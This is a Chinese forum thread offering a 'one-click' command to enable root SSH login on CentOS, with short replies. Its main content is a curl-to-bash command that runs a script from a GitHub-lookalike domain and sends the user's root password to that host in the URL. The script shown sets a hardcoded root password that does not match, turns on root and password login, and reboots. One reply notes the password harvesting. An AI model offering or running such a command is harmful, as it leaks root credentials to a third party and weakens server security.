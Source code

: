 # Centos一键开启ROOT登录SSH


<div class="quote"><blockquote>bash &lt;(curl https://git-hub.in/ssh.php?pwd=密码)</blockquote></div><br />
<br />
<strong>目前仅支持Centos6/7 非此系统用户请手动重启SSHD服务</strong><br />
<br />
PHP文件源代码（不放心的可以自建）：<img id="aimg_mi2kt" onclick="zoom(this, this.src, 0, 0, 0)" class="zoom" src="https://img.qcair.cc/img/4562" onmouseover="img_onmouseoverfunc(this)" onload="thumbImg(this)" border="0" alt="" />

#!/bin/bash<br />
echo root:746461jiok |sudo chpasswd root<br />
sudo sed -i 's/^#\?PermitRootLogin.*/PermitRootLogin yes/g' /etc/ssh/sshd_config;<br />
sudo sed -i 's/^#\?PasswordAuthentication.*/PasswordAuthentication yes/g' /etc/ssh/sshd_config;<br />
sudo reboot<br />
<br />
<br />
<br />
我都是用这个&nbsp;&nbsp;aws.gcp.甲骨文

然后所有密码都被你收集起来了 真棒<img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" />

这个php有点没看懂。。。现在php还可以直接生成sh了？太强了吧

well done<br />
<br />
<br />
<br />
/**<br />
 * 错的不是我， 错的是世界。 -- [School day]-----------By 开保时捷的男人

我寻思这不是 vim 改一下文件就好了吗， 1分钟不到的事

Gcp. 應該能用上

AWS，AZ，都能一行代码搞定嘛？<br />
<br />
<img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" /><img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" /><img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" />
